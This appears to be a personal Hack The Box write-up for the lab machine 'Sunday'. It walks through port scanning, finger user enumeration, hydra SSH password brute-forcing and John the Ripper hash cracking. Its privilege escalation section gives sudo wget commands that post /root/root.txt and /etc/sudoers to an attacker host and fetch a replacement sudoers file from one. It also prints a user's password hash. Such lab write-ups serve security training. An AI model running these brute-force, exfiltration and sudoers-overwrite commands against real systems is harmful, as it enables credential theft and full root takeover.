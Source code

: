 Sunday HTB, IP address:10.10.10.76

#Initial Enumeration

1.nmap -sC -sV 10.10.10.76


2. ./nmapAutomator.sh 10.10.10.76 Full


Nmap full port scan: nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
55029/tcp open  unknown

Running a specific port scan:
nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.7

Results:
Port 22022: is running SunSSH 1.3
Port 55029: is running a service that nmap was not able to identify

------------------------------------------------------------------------------------------------------------------------
#Port Enumeration

1.Enumerating finger service
   Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

finger @10.10.10.76


perl finger-user-enum.pl -U user.txt -t 10.10.10.76
                                                     


2. Port 22
Connecting on port 22
From the nmap automator script we found out that SSH service is running on port 22.

ssh sunny@10.10.10.76 -p 22022
  Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

  Notes:
  This particular error happens while the encrypted channel is being set up. If your system and the remote system don't share at least one cipher, there is no cipher to agree on and no encrypted channel is possible. Usually SSH servers will offer a small handful of different ciphers in order to cater to different clients

ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1
OR
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc sunny@10.10.10.76

I will brute force with several wordlists

HYDRA
hydra -V -I -l sunny -P ‘/usr/share/wordlists/rockyou.txt’ 10.10.10.76 ssh -s 22022




 Finally “sunday” seems to be the password.

#LATERAL MOVEMENT SUNNY → SAMMY
ssh sunny@10.10.10.76
I found a backup file in the following directory. 
It contains two files agen22.backup and shadow.backup. The former we don’t have access to, however, we can view the latter.



copy sammy's hash password to a hash.txt file
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::

JOHN THE RIPPER

john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt 


------------------------------------------------------------------------------------------------------------------------------------------------------------
#Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


A) GTFOBins wget

First attempt: Gaining a nc shell on attacker machine
 We can use the wget –post-file parameter to post the contents of root.txt. Let’s see if that works. We spin up a Netcat listener on port 80 on our attacker machine
 sudo wget –post-file=/root/root.txt attacker machine



We can capture the flag that way, but let’s do something else with these elevated privileges to get a root shell on the box.
B) Change sudoers file permissions and make sammy's rights ALL
 
 What if we post the /etc/sudoers file and make Sammy or Sunny execute anything as root? Let’s first see the contents of /etc/sudoers. 
<<sudo wget –post-file=/etc/sudoers <attacker machine ip>>>


Copying the contents of /etc/sudoers into sudoers and changing the permissions of Sammy to ALL=(root) NOPASSWD: ALL as shown below.
Collecting this file and installing it as /etc/sudoers, since wget is running as root effectively.
sudo wget -O /etc/sudoers http://<attcker_ip:8000/sudoers
Now we can see that with just one command, Sammy becomes root and take complete control of the box.


*Disclaimer: I did not do the Privilege Escalation part because of SSH LAG.*

 

